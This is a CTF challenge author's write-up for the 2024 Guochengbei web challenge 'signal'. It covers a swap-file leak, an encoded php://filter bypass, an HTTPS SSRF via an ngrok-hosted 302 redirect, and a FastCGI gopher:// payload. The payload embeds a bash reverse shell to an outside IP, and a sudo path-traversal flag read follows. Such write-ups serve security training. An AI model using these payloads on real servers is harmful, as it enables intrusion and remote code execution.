# 2024国城杯线上signal出题文档-先知社区

> **来源**: https://xz.aliyun.com/news/16238  
> **文章ID**: 16238

---

### 前言

这次国城杯出题，周期还是挺长的，也算是第一次出稍大型比赛的题，在出题时不断引发其他思路，所以题目考点也是经常在变的，最后基本敲定了考点，但是docker也是拉了很久都没拉起，那段时间真想直接点了，最后还是换考点拉起了docker，但至少还是对docker理解更深，也算有些收获。

当docker拉好测试完毕后，本来只是一个简单的suid提权，但感觉我的题有点简单，会被打烂，就让学渗透的队友加了一个比较巧妙地提权。具体看wp。

### 出题思路

最开始敲定的Xpath注入+fastcgi，然后出题一直改改改，最后到了如下考点：

这里主要考点时信息泄露、filter过滤器绕过，然后我将ssrf的点设置为了允许302跳转，加了一个https的限制，感觉最难的考点是https的绕过（但是有域名当我没说）。

### wp

#### signal

cgi?

————————

自己出的题，这里也是来写一下wp。

开题就是一个登录框，进行常规的信息收集，可以发现后端是php：

  
那么现在就是去扫一下目录：  
  
扫出了admin.php，但是302跳转到了index.php，应该是有session验证这些。然后扫出来了一个信息泄露，下载下来然后用命令看：

```
vim -r index.php.swp
```

得到如下回显：

  
所以现在是知道了guest的账号密码，登录进行看一下：

  
一眼文件包含，可以包含`/etc/passwd`和`/flag`，但是这个`/flag`给的是假的：

  
开始尝试包含文件，发现包含admin.php文件会直接跳转回index.php页面，说明php代码是被解析了的，所以可以知道后端就是include函数来包含的，因为这里解析了php代码，所以现在就是看如何进行文件包含，并且是需要将其编码输出才能成功文件包含读取代码。

其实这里是有几个非预期的，比如fileter chian、侧信道读取文件等，我这里为了禁非预期还是下了狠手的，将其改为了get传参限制长度，然后禁了很多filter chain需要用的过滤器的部分的字符，为了让fuzz都很难fuzz出来，虽然这里就只是一个简单的二次编码绕过的考点。所以直接像下面这个这样传参即可（ps：最后还是被filter chain非预期了，具体可以看晨曦师傅的wp,忘了禁读guest.php文件了）：

```
php://filter/%25%36%33%25%36%66%25%36%65%25%37%36%25%36%35%25%37%32%25%37%34%25%32%65%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%35%25%36%65%25%36%33%25%36%66%25%36%34%25%36%35/resource=admin.php
```

得到admin.php的源码，base64解码后如下（只留了php的代码）：

```
<?php
session_start();
error_reporting(0);

if ($_SESSION['logged_in'] !== true || $_SESSION['username'] !== 'admin') {
    $_SESSION['error'] = 'Please fill in the username and password';
    header("Location: index.php");
    exit();
}

$url = $_POST['url'];
$error_message = '';
$page_content = '';

if (isset($url)) {
    if (!preg_match('/^https:\/\//', $url)) {
        $error_message = 'Invalid URL, only https allowed';
    } else {
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_HEADER, 0);
        curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1); 
        $page_content = curl_exec($ch);
        if ($page_content === false) {
            $error_message = 'Failed to fetch the URL content';
        }
        curl_close($ch);
    }
}
?>

```

其中有几个关键的代码：

```
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);

```

发现是允许跟随302跳转的，并且是接受POST传参url的，但是是加了session验证的，所以是需要知道怎么登陆进这个admin页面的，所以现在是需要找在哪里可以得到admin的账户。继续信息收集，可以在最开始的登录页面的源代码中看到如下代码：

  
直接去读这个文件，还是读不了，还是base64编码一下读，成功得到源码：

```
<?php
session_start();

$users = [
    'admin' => 'FetxRuFebAdm4nHace',
    'guest' => 'MyF3iend'
];

if (isset($_POST['username']) && isset($_POST['password'])) {
    $username = $_POST['username'];
    $password = $_POST['password'];

    if (isset($users[$username]) && $users[$username] === $password) {
        $_SESSION['logged_in'] = true;
        $_SESSION['username'] = $username;

        if ($username === 'admin') {
            header('Location: admin.php');
        } else {
            header('Location: guest.php');
        }
        exit();
    } else {
        $_SESSION['error'] = 'Invalid username or password';
        header('Location: index.php');
        exit();
    }
} else {
    $_SESSION['error'] = 'Please fill in the username and password';
    header('Location: index.php');
    exit();
}

```

得到了账号密码，现在就是去登录一下admin账户：

  
就是一个输出框，我们可以进行ssrf跳转，看源代码是只有https开头的才能跳转，现在需要想的是这里的ssrf能打什么，结合题目描述，可以知道这里是打fastcgi。那么怎么https打302呢。如果自己有一个域名，那么很好解决。服务器是裸ip就要找其他的方法尝试搭建一个临时域名，这里至少有两个方法：

* 可以利用国外的[cloudflare](https://dash.cloudflare.com/login)来起一个临时域名，用来打302跳转：

  
这里直接将图中的ip改成gopher的payload打即可。但是本地测试是可以成功打302跳转的，但是这里的服务器是不通外网的，所以需要找另外的方法（文末给源码，有兴趣的师傅可以拉docker复现一下）。

* 使用ngrok工具，在服务器上面使用这个工具可以创建一个临时网站。配置方法参考[官方文章](https://download.ngrok.com/linux?tab=download)，在这个临时域名指向的本地服务就需要将其设置为一个302跳转来打。具体操作如下：  
  用于本地服务跳转的代码：

```
from flask import Flask, redirect

app = Flask(__name__)

@app.route('/')
def indexRedirect():
    redirectUrl = 'http://47.100.223.173/shell.php'
    return redirect(redirectUrl)

if __name__ == '__main__':
    app.run('0.0.0.0', port=8080, debug=True)

```

然后ngrok用于搭建临时网站的命令：

```
生成https临时网站： ngrok http 8080
```

在这里配置好ngrok后如下进行操作

开启本地服务：

  
进行端口转发：

  
然后扔题目里访问这个https即可，看看回显：

  
成功跳转自己的服务器获取到回显。

那么现在就是来打fastcgi，这里直接用Gopherus工具来生成payload（这里就直接弹shell）：

  
拿到payload后直接在本地服务拿去跳转即可：  
即：

```
from flask import Flask, redirect

app = Flask(__name__)

@app.route('/')
def indexRedirect():
    redirectUrl = 'gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH106%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/admin.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00j%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/47.100.223.173/2333%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00'
    return redirect(redirectUrl)

if __name__ == '__main__':
    app.run('0.0.0.0', port=8080, debug=True)

```

然后在服务器上监听端口，再执行一次之前的操作，成功弹shell：

  
根目录下的flag是假的，所以现在需要找一下flag位置：

```
find / -name flag*
```

找到了位置：

  
但是shell断了，无所谓，再连一次就行了（好像还需要重启一下容器）：

然后读取如下：

  
需要提权，直接看sudo权限：

  
如下读取flag即可：

```
sudo cat /tmp/whereflag/../../../root/flag
```

成功获取到flag：


